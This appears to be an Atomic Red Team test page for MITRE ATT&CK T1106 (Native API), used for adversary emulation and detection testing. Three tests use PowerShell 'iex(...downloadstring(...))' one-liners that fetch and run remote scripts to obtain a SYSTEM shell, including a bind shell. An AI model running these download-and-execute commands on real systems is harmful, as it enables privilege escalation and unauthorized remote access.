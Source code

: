 # T1106 - Native API
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1106)
<blockquote>Adversaries may interact with the native OS application programming interface (API) to execute behaviors. Native APIs provide a controlled means of calling low-level OS services within the kernel, such as those involving hardware/devices, memory, and processes.(Citation: NT API Windows)(Citation: Linux Kernel API) These native APIs are leveraged by the OS during system boot (when other system components are not yet initialized) as well as carrying out tasks and requests during routine operations.

Native API functions (such as <code>NtCreateProcess</code>) may be directed invoked via system calls / syscalls, but these features are also often exposed to user-mode applications via interfaces and libraries.(Citation: OutFlank System Calls)(Citation: CyberBit System Calls)(Citation: MDSec System Calls) For example, functions such as the Windows API <code>CreateProcess()</code> or GNU <code>fork()</code> will allow programs and scripts to start other processes.(Citation: Microsoft CreateProcess)(Citation: GNU Fork) This may allow API callers to execute a binary, run a CLI command, load modules, etc. as thousands of similar API functions exist for various system operations.(Citation: Microsoft Win32)(Citation: LIBC)(Citation: GLIBC)

Higher level software frameworks, such as Microsoft .NET and macOS Cocoa, are also available to interact with native APIs. These frameworks typically provide language wrappers/abstractions to API functionalities and are designed for ease-of-use/portability of code.(Citation: Microsoft NET)(Citation: Apple Core Services)(Citation: MACOS Cocoa)(Citation: macOS Foundation)

Adversaries may abuse these OS API functions as a means of executing behaviors. Similar to [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059), the native API and its hierarchy of interfaces provide mechanisms to interact with and utilize various components of a victimized system. While invoking API functions, adversaries may also attempt to bypass defensive tools (ex: unhooking monitored functions via [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001)).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Execution through API - CreateProcess](#atomic-test-1---execution-through-api---createprocess)

- [Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using CreateProcess technique](#atomic-test-2---winpwn---get-system-shell---pop-system-shell-using-createprocess-technique)

- [Atomic Test #3 - WinPwn - Get SYSTEM shell - Bind System Shell using CreateProcess technique](#atomic-test-3---winpwn---get-system-shell---bind-system-shell-using-createprocess-technique)

- [Atomic Test #4 - WinPwn - Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique](#atomic-test-4---winpwn---get-system-shell---pop-system-shell-using-namedpipe-impersonation-technique)


<br/>

## Atomic Test #1 - Execution through API - CreateProcess
Execute program by leveraging Win32 API's. By default, this will launch calc.exe from the command prompt.

**Supported Platforms:** Windows


**auto_generated_guid:** 99be2089-c52d-4a4a-b5c3-261ee42c8b62





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| source_file | Location of the CSharp source file to compile and execute | Path | PathToAtomicsFolder&#92;T1106&#92;src&#92;CreateProcess.cs|
| output_file | Location of the payload | Path | %tmp%&#92;T1106.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:"#{output_file}" /target:exe #{source_file}
%tmp%/T1106.exe
```




#### Dependencies:  Run with `powershell`!
##### Description: #{source_file} must exist on system.
##### Check Prereq Commands:
```powershell
if (Test-Path #{source_file}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{source_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1106/src/CreateProcess.cs" -OutFile "#{source_file}"
```




<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using CreateProcess technique
Get SYSTEM shell - Pop System Shell using CreateProcess technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** ce4e76e6-de70-4392-9efe-b281fc2b4087






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystem.ps1')
```






<br/>
<br/>

## Atomic Test #3 - WinPwn - Get SYSTEM shell - Bind System Shell using CreateProcess technique
Get SYSTEM shell - Bind System Shell using CreateProcess technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7ec5b74e-8289-4ff2-a162-b6f286a33abd






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystemBind.ps1')
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique
Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** e1f93a06-1649-4f07-89a8-f57279a7d60e






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/NamedPipe/NamedPipeSystem.ps1')
```






<br/>
